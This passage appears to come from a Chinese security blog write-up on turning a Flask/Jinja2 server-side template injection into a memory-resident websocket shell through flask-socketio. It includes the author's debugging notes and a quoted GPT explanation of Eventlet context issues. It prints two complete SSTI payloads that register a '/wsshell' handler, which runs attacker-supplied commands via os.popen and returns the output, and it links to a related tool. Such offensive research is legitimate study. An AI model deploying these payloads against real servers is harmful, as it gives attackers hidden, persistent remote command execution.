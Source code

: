 这时候笔者已经下断点绕懵逼了。最后实现的时候先调用了`_handle_event()`（由`@wraps(handler)`装饰器函数调用的），然后传入另一个匿名函数作为事件处理函数。后面才想起来应该直接调用`send`即可。这里先不管，目前我们虽然执行了命令，但是需要拿到回显，回显需要服务器发送消息，发送消息需要拿到`flask_socketio.SocketIO`对象，但是现在上下文中没有这个对象。这里要区别一下 SSTI 的时候能拿到和这里不能拿到的原因：SSTI漏洞利用的时候就在 flask 的上下文环境中，这里调用事件处理函数的时候不在，笔者想的是 flask-socketio 在本机的环境里使用了 Eventlet  来做异步服务，所以问了下GPT。
> _ 在使用 Eventlet 时访问不到 Flask 上下文通常是因为 Flask 的上下文管理机制与协程（coroutines）和绿色线程（green threads）的协作方式不兼容。Flask 依赖于上下文局部（context locals）来跟踪请求和应用程序上下文，而这些上下文局部在使用协程时可能不会被正确传递和管理。这是因为上下文局部是线程局部的（thread-local），而协程和绿色线程与传统线程的工作机制不同。  _
> ![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718026698464-463b97d3-1339-4234-aa16-e9483707e312.png#averageHue=%23849796&clientId=u82fbda9c-3c32-4&from=paste&height=112&id=u7480de58&originHeight=140&originWidth=385&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12443&status=done&style=none&taskId=u426c022c-694b-497d-b938-1e57088cf0c&title=&width=308)

不明所以，所以暴力解决，在 SSTI 漏洞利用的时候拿到 flask 的应用上下文放到 Python 的内建模块中，这样无论在哪个地方都能够拿到需要的对象了。
实现如下，在调用事件处理函数的时候直接拿到内建模块中上下文，然后执行发送消息：
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
__import__('builtins').app_ctx= app.app_context();
app.extensions['socketio'].server.handlers['/wsshell'] = {'shell':lambda s,d: __import__('builtins').app_ctx.app.extensions['socketio'].send({'msg': '<pre>{0}</pre>'.format(__import__('os').popen(d['cmd']).read())},namespace='/wsshell')}
", 
{'app':url_for.__globals__['current_app'] })
}}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718026946677-efec3eb0-5f4b-483f-9d8b-f90021e76b2e.png#averageHue=%23ace1d2&clientId=u82fbda9c-3c32-4&from=paste&height=741&id=u3d2cdd60&originHeight=926&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=129948&status=done&style=none&taskId=u16b49491-8a14-45c5-8ae4-9322b224712&title=&width=1536)

PS：_其实这块能写那么多，纯纯当时拿不到对象一直调试有点懵逼了，后面拿到对象后没有直接调用_`_send_`_（忘记了），而是拿着这个对象按照正常的流程走了一遍。得到下面的Payload_
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
my_func= lambda d: __import__('builtins').app_ctx.app.extensions['socketio'].send({'msg':__import__('os').popen(d['cmd']).read()},namespace='/wsshell');
__import__('builtins').app_ctx= app.app_context();
app.extensions['socketio'].server.handlers['/wsshell'] = {};
app.extensions['socketio'].server.handlers['/wsshell']['shell']= lambda s,d: __import__('flask_socketio').SocketIO._handle_event(__import__('builtins').app_ctx.app.extensions['socketio'], my_func, 'shell', '/wsshell', s, d )
", 
{'app':url_for.__globals__['current_app'] })
}}
```


用到的demo以及开发的工具：
[https://github.com/orzchen/PyMemShell/](https://github.com/orzchen/PyMemShell/)
